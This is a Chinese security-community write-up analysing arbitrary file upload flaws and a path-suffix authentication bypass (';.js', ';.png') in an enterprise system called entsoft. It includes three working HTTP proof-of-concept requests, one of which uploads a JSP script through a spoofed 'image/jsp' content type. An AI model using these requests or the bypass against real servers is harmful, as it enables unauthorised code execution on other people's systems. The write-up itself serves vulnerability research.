 

# 某恩特文件上传漏洞分析 - 先知社区

某恩特文件上传漏洞分析

- - -

## 0X01 前言

最近这段时间某恩特，公众号到处在发，该系统的 0day 漏洞，可谓是漫天飞了，且利用方式也及其简单，本文就是对该系统目前所爆出来的漏洞进行一个漏洞分析，并在最后给出一个该系统未被公布的 0day  
基本上都是这两天的，非常的集中  
[![](assets/1700701273-3e6fb8c3734853f08ca0ad34b4f09ece.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122140854-9d54731a-88fd-1.png)

## 0X02 漏洞分析

我们来看一下最开始原始的 POC

```plain
POST /entsoft_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 27
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en
Content-Type: application/x-www-form-urlencoded

11111
```

定位到 fileupload.jsp 文件，只能说相当的简单粗暴有没有，获取输入流，获取文件名，直接保存导致任意文件上传的发生  
[![](assets/1700701273-82753a407688282533179e095e41edc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202653-407ea8d4-8869-1.png)  
但实际在测试过程中，发现该漏洞影响范围并不是很多，很多均进行了修复，我在测试过程中仅仅成功了 2 个  
[![](assets/1700701273-ab18e8268057eb33884260dc5ebe14de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202713-4cf432fa-8869-1.png)  
且这套系统对 jsp 之类的脚本文件均做了鉴权，也就是说先前爆出来的漏洞 fileupload.jsp 在开发者允许访问白名单中  
[![](assets/1700701273-1824c48e75f742858d18af4bef5cee56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202741-5d655524-8869-1.png)  
继续深入探索，查看 web.xml，发现 Filter，通过 jd-gui 反编译 common.jar 文件即可查看相关代码  
[![](assets/1700701273-7e51d073aa7eff80d558a0d1f1ca15de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202802-69d52ff0-8869-1.png)  
从字面意思上，就可以看见排除了如下后缀，和路径文件  
[![](assets/1700701273-ee67c50784d8b923ffa47c9f79dbdce0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202830-7a70f312-8869-1.png)  
其判断鉴权部分模块，通过 contains 来判断是否包含需要排除的字符和路径  
[![](assets/1700701273-04af23f3462d9af4f2e78488c51115d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202854-8909d650-8869-1.png)  
所以访问 jsp 文件或者需要登录的文件我们可以通过在后缀;.js ;.jpg;.html 等方式绕过登录限制  
[![](assets/1700701273-7893173e48aba1521527d41d1d00e5d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202939-a3ebc992-8869-1.png)  
[![](assets/1700701273-4989c2248577df0128c868ae48bcdd24.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202955-acff1d2c-8869-1.png)  
而 entsoft\_en 也赫然在列，再去看看 entsoft 中的 filupload.jsp，和其他相关的 upload  
[![](assets/1700701273-ceba7bc15978f12ddf5bc73d622e57eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203020-bc1e4a94-8869-1.png)  
依然是个妥妥的任意文件上传，只不过判断了文件是否是 jpg，如果是后缀就变成了 jpeg  
[![](assets/1700701273-885403f6422983ad1c7950b93bcff70d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203041-c894e530-8869-1.png)  
继续查看 web.xml  
[![](assets/1700701273-a6d87ccc2053d63408256e369c601db3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203100-d44603aa-8869-1.png)  
定位到实现类  
[![](assets/1700701273-f9d9b396638bdf36f1db6fe56117f1a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203119-df11a1ea-8869-1.png)  
反编译查看  
[![](assets/1700701273-a15c5545892e47aa394fd87805ab59f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203134-e882b9a8-8869-1.png)  
定位到 MailAction，获取到了三个参数，method，act，eid，后面判断 method 和 act 是对应的值，如果是则跳到对应的实现方法中，比如 saveAttaFile  
我们主要看获取文件名的操作，以及文件名是否可控，可以看见，并未对文件后缀进行任何过滤，导致任意文件上传的发生  
[![](assets/1700701273-707ad269227853d4adc7e7265495af17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203205-fb02ee18-8869-1.png)  
利用 POC

```plain
POST /entsoft/MailAction.entphone;.png?act=saveAttaFile HTTP/1.1
Host: xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Length: 179

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="beautif.js"
Content-Type: xxx/txt

1
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

POC 中的;.png 同上，绕过登录限制，继续查看该代码文件发现其 AppUpload 方法也存在文件上传功能，其文件名判断了 contentype 是否不为空，以及 contentype 是否包含 image，之后在取 contentype 中的值作为后缀，我们可以通过 image/jsp 绕过  
[![](assets/1700701273-b72e28c742d9ce71a85d223ee02b3e72.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203234-0c148770-886a-1.png)  
[![](assets/1700701273-57df27dd911b99292c544c573a22ff70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203251-160acaa0-886a-1.png)  
[![](assets/1700701273-1dc9286a9620241052964c27214de3b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203317-25cd34c8-886a-1.png)  
最新的 POC

```plain
POST /entsoft/MailAction.entphone;.js?act=AppUpload&bodyID=1 HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------255059884712683317431739889351
Content-Length: 259
Origin: 
Connection: close
Referer: 
Cookie: 

-----------------------------255059884712683317431739889351
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/jsp

<%= (new java.util.Date()).toLocaleString()%>
-----------------------------255059884712683317431739889351--
```

其他 Action 中基本上只要有上传基本上都有该类问题，比如/entsoft/CustomerAction.entphone;.js?method=loadFile，注入什么的也不少，该有的漏洞他都有，主要该系统影响的范围也不小，基本上都是通杀的类型。

## 0X03 总结

感觉最值得利用的一点就是鉴权绕过的方式，我们在黑盒测试的过程中，可以多试试;.js ;.png 之类的方式，以及通过/xxx 可访问的路径/../鉴权路径目录穿越的方式，说不定也有奇效，总之需要不断的学习呀，如有问题欢迎各位师傅指正，图片打码有点问题，感谢先知社区的审核大大如此认真负责，比心
